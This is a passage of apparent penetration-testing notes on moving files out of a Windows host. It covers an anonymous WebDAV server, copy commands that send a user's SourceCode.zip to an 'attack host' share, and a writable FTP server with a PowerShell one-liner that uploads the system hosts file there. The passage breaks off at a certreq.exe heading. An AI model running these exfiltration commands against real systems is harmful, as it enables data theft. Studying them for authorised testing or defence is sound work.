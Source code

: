 
#### WebDAV
run SMB over HTTP with WebDav. WebDAV (RFC 4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other.

    !!!When you use SMB, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP. 


To set up our WebDav server, we need to install two Python modules, wsgidav and cheroot
```
$ sudo pip install wsgidav cheroot
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
Connecting to the Webdav Share
```
C:\> dir \\192.168.49.128\DavWWWRoot
```


    !!!Note: DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

            
## Uploading Files using SMB

```
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
    !Note: If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.



## FTP Uploads

start the FTP Server using pyftpdlib, we need to specify the option --write to allow clients to upload files to our attack host.

```
    $ sudo python3 -m pyftpdlib --port 21 --write
```

```
    PS > (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```


## LOLBINS

#### Upload with certreq.exe
